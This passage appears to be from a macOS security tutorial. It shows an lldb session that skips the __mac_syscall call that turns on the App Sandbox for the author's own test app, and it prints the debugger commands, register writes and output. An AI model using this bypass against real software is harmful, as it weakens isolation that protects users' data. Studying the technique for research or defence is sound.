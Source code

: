 ```bash
(char *) $4 = 0x0000000100204280 "<dictionary: 0x600003d04000> { count = 7, transaction: 0, voucher = 0x0, contents =\n\t\"SECINITD_REPLY_MESSAGE_CONTAINER_ID_KEY\" => <string: 0x600000c04d50> { length = 22, contents = \"xyz.hacktricks.sandbox\" }\n\t\"SECINITD_REPLY_MESSAGE_QTN_PROC_FLAGS_KEY\" => <uint64: 0xaabe660cef067137>: 2\n\t\"SECINITD_REPLY_MESSAGE_CONTAINER_ROOT_PATH_KEY\" => <string: 0x600000c04e10> { length = 65, contents = \"/Users/carlospolop/Library/Containers/xyz.hacktricks.sandbox/Data\" }\n\t\"SECINITD_REPLY_MESSAGE_SANDBOX_PROFILE_DATA_KEY\" => <data: 0x600001704100>: { length = 19027 bytes, contents = 0x0000f000ba0100000000070000001e00350167034d03c203... }\n\t\"SECINITD_REPLY_MESSAGE_VERSION_NUMBER_KEY\" => <int64: 0xaa3e660cef06712f>: 1\n\t\"SECINITD_MESSAGE_TYPE_KEY\" => <uint64: 0xaabe660cef067137>: 2\n\t\"SECINITD_REPLY_FAILURE_CODE\" => <uint64: 0xaabe660cef067127>: 0\n}"

# To bypass the sandbox we need to skip the call to __mac_syscall
# Lets put a breakpoint in __mac_syscall when x1 is 0 (this is the code to enable the sandbox)
(lldb) breakpoint set --name __mac_syscall --condition '($x1 == 0)'
(lldb) c

# The 1 arg is the name of the policy, in this case "Sandbox"
(lldb) memory read -f s $x0
0x19300eb22: "Sandbox"

#
# BYPASS
#

# Due to the previous bp, the process will be stopped in:
Process 2517 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
    frame #0: 0x0000000187659900 libsystem_kernel.dylib`__mac_syscall
libsystem_kernel.dylib`:
->  0x187659900 <+0>:  mov    x16, #0x17d
    0x187659904 <+4>:  svc    #0x80
    0x187659908 <+8>:  b.lo   0x187659928               ; <+40>
    0x18765990c <+12>: pacibsp

# To bypass jump to the b.lo address modifying some registers first
(lldb) breakpoint delete 1 # Remove bp
(lldb) register write $pc 0x187659928 #b.lo address
(lldb) register write $x0 0x00
(lldb) register write $x1 0x00
(lldb) register write $x16 0x17d
(lldb) c
Process 2517 resuming
Sandbox Bypassed!
Process 2517 exited with status = 0 (0x00000000)
```

{% hint style="warning" %}
**Even with the Sandbox bypassed TCC** will ask the user if he wants to allow the process to read files from desktop
{% endhint %}
